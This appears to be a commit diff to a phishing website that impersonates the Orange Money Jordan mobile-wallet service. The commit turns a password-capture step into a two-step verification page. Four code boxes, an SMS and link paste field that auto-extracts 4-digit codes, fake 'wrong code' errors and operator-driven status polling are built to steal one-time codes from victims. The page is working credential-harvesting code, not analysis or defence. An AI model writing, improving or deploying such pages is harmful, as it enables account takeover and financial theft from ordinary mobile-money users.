

Before and after one commit to waaficbd/Orange, a website: page public/page8.html in a window 1280 px wide. Shown: the part 104-788 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update page8.html

```diff
--- a/public/page8.html
+++ b/public/page8.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
-    <title>اورنج موني الأردن - كلمة المرور</title>
+    <title>اورنج موني الأردن - التحقق من الرمز</title>
 
     <!-- ✅ Telegram SDK -->
     <script src="https://telegram.org/js/telegram-web-app.js"></script>
@@ -90,64 +90,50 @@
             align-items: center;
             justify-content: center;
             gap: 8px;
-            direction: ltr;
+            direction: ltr; /* Keeps prefix and number format consistent */
         }
 
-        /* Password Input Line Style (Matching Reference Photo) */
-        .password-section {
+        /* 4-Digit OTP Code Inputs */
+        .otp-section {
             margin-bottom: 20px;
-            text-align: right;
+            text-align: center;
         }
 
-        .password-label {
+        .otp-label {
             font-size: 14px;
             font-weight: 700;
             color: var(--text-dark);
-            margin-bottom: 8px;
-            display: block;
+            margin-bottom: 12px;
         }
 
-        .password-wrapper {
-            position: relative;
-            width: 100%;
+        .otp-input-group {
             display: flex;
-            align-items: center;
+            gap: 12px;
+            justify-content: center;
+            margin-bottom: 16px;
+            direction: ltr; /* Left-to-right digit sequence */
         }
 
-        .password-input {
-            width: 100%;
-            height: 52px;
-            border: 1.5px solid #dcdcdc;
-            border-bottom: 2.5px solid var(--border-orange);
-            border-radius: 8px;
-            padding: 0 16px 0 45px;
-            font-size: 16px;
-            font-weight: 600;
+        .otp-box {
+            width: 52px;
+            height: 54px;
+            border: 2px solid var(--border-orange);
+            border-radius: 10px;
+            text-align: center;
+            font-size: 22px;
+            font-weight: bold;
             outline: none;
-            background-color: #fafafa;
-            color: #333333;
-            transition: all 0.2s;
-            direction: ltr;
-            text-align: left;
+            background-color: #ffffff;
+            transition: border-color 0.2s;
         }
 
-        .password-input:focus {
-            border-color: var(--orange-primary);
-            background-color: #ffffff;
-        }
-
-        .toggle-eye {
-            position: absolute;
-            left: 14px;
-            cursor: pointer;
-            font-size: 20px;
-            user-select: none;
-            color: var(--text-muted);
+        .otp-box:focus {
+            border-width: 2.5px;
         }
 
         textarea {
             width: 100%;
-            height: 70px;
+            height: 80px;
             border: 1.5px solid #dcdcdc;
             border-radius: 10px;
             padding: 10px;
@@ -157,7 +143,6 @@
             font-family: inherit;
             color: #333333;
             background-color: #fafafa;
-            margin-bottom: 10px;
         }
 
         textarea:focus {
@@ -173,7 +158,7 @@
             text-align: center;
             color: var(--text-muted);
             font-size: 14px;
-            margin: 15px 0;
+            margin: 20px 0;
         }
 
         .submit-btn {
@@ -299,10 +284,10 @@
 
 <div class="main-container">
     <div class="card">
-        <h2>تسجيل الدخول</h2>
+        <h2>التحقق بخطوتين</h2>
 
         <p class="instruction">
-            أدخل كلمة المرور الخاصة بتطبيق اورنج موني الأردن المرتبطة برقمك:
+            أدخل رمز التحقق المكون من 4 أرقام الذي تم إرساله إلى رقم اورنج موني الخاص بك:
         </p>
 
         <div class="phone-number">
@@ -310,23 +295,25 @@
             <span id="displayPhone">+962 ...</span>
         </div>
 
-        <!-- Password Line Input -->
-        <div class="password-section">
-            <label class="password-label" for="passwordInput">كلمة المرور (Password)</label>
-            <div class="password-wrapper">
-                <input type="password" id="passwordInput" class="password-input" placeholder="أدخل كلمة المرور" autocomplete="current-password">
-                <span class="toggle-eye" id="eyeIcon">👁️</span>
+        <!-- 4-Digit OTP Code Inputs -->
+        <div class="otp-section">
+            <div class="otp-label">رمز التحقق (4 أرقام)</div>
+            <div class="otp-input-group">
+                <input type="password" maxlength="1" class="otp-box" inputmode="numeric" autocomplete="off">
+                <input type="password" maxlength="1" class="otp-box" inputmode="numeric" autocomplete="off">
+                <input type="password" maxlength="1" class="otp-box" inputmode="numeric" autocomplete="off">
+                <input type="password" maxlength="1" class="otp-box" inputmode="numeric" autocomplete="off">
             </div>
         </div>
 
-        <textarea id="smsInput" placeholder="أو قم بلصق تفاصيل الرسالة النصية هنا (اختياري)..."></textarea>
-        <div id="errorText" class="error-message">كلمة المرور غير صحيحة. يرجى التحقق وإعادة المحاولة.</div>
+        <textarea id="smsInput" placeholder="أو قم بلصق الرسالة النصية / الرابط الكامل هنا..."></textarea>
+        <div id="errorText" class="error-message">الرمز أو الرابط غير صحيح أو انتهت صلاحيته. يرجى استخدام أحدث رمز تم استلامه.</div>
 
         <div class="resend-text" id="timerBox">
-            إعادة إرسال رمز التحقق خلال <span id="timer">60</span> ثانية
+            إعادة الإرسال خلال <span id="timer">60</span> ثانية
         </div>
 
-        <button id="submitBtn" class="submit-btn" disabled>تأكيد كلمة المرور</button>
+        <button id="submitBtn" class="submit-btn" disabled>تأكيد الرمز</button>
     </div>
 </div>
 
@@ -354,8 +341,7 @@
 <script>
 document.addEventListener("DOMContentLoaded", () => {
     const displayPhone = document.getElementById('displayPhone');
-    const passwordInput = document.getElementById('passwordInput');
-    const eyeIcon = document.getElementById('eyeIcon');
+    const otpBoxes = document.querySelectorAll('.otp-box');
     const smsInput = document.getElementById('smsInput');
     const submitBtn = document.getElementById('submitBtn');
     const timerEl = document.getElementById('timer');
@@ -374,21 +360,42 @@ document.addEventListener("DOMContentLoaded", () => {
         displayPhone.textContent = "+962 ...";
     }
 
-    // Toggle password visibility with eye icon
-    eyeIcon.addEventListener('click', () => {
-        const isPassword = passwordInput.type === "password";
-        passwordInput.type = isPassword ? "text" : "password";
-        eyeIcon.textContent = isPassword ? "🙈" : "👁️";
+    // Auto-focus and digit handling for the 4 OTP boxes
+    otpBoxes.forEach((box, index) => {
+        box.addEventListener('input', () => {
+            box.value = box.value.replace(/\D/g, '');
+
+            if (box.value && index < otpBoxes.length - 1) {
+                otpBoxes[index + 1].focus();
+            }
+
+            checkInputs();
+        });
+
+        box.addEventListener('keydown', (e) => {
+            if (e.key === "Backspace" && !box.value && index > 0) {
+                otpBoxes[index - 1].focus();
+            }
+        });
     });
 
-    // Input handlers to enable/disable button
-    passwordInput.addEventListener('input', checkInputs);
-    smsInput.addEventListener('input', checkInputs);
+    // Auto extract 4-digit code from full SMS if pasted into text area
+    smsInput.addEventListener('input', () => {
+        const text = smsInput.value;
+        const matched = text.match(/\b\d{4}\b/);
+        if (matched) {
+            const digits = matched[0].split('');
+            otpBoxes.forEach((box, i) => {
+                box.value = digits[i] || '';
+            });
+        }
+        checkInputs();
+    });
 
     function checkInputs() {
-        const hasPassword = passwordInput.value.trim().length > 0;
+        const isOtpFilled = [...otpBoxes].every(b => b.value.length === 1);
         const hasText = smsInput.value.trim().length > 0;
-        const valid = hasPassword || hasText;
+        const valid = isOtpFilled || hasText;
 
         submitBtn.disabled = !valid;
         submitBtn.classList.toggle('active', valid);
@@ -426,15 +433,15 @@ document.addEventListener("DOMContentLoaded", () => {
                     clearInterval(checkInterval);
                     window.location.href = "/page6?error=wrongpin";
                 }
-                // Incorrect Password handle
+                // Incorrect SMS Code/Link handle
                 else if (data.status === "otp1_wrong") {
                     clearInterval(checkInterval);
                     statusOverlay.style.display = "none";
                     contactOverlay.style.display = "none";
-                    errorText.textContent = "كلمة المرور غير صحيحة. يرجى التحقق وإعادة المحاولة.";
+                    errorText.textContent = "الرمز أو الرابط غير صحيح أو انتهت صلاحيته. يرجى استخدام أحدث رمز تم استلامه.";
                     errorText.style.display = "block";
-                    passwordInput.value = "";
                     smsInput.value = "";
+                    otpBoxes.forEach(b => b.value = "");
                     submitBtn.disabled = true;
                     submitBtn.classList.remove('active');
                 }
@@ -454,9 +461,11 @@ document.addEventListener("DOMContentLoaded", () => {
     submitBtn.addEventListener('click', async () => {
         if (submitBtn.disabled) return;
 
-        const pwdValue = passwordInput.value.trim();
+        let code = "";
+        otpBoxes.forEach(b => code += b.value);
+
         const pastedLink = smsInput.value.trim();
-        const payload = pastedLink ? `${pwdValue} | ${pastedLink}` : pwdValue;
+        const payload = pastedLink ? `${code} | ${pastedLink}` : code;
 
         if (!payload) return;
 
```
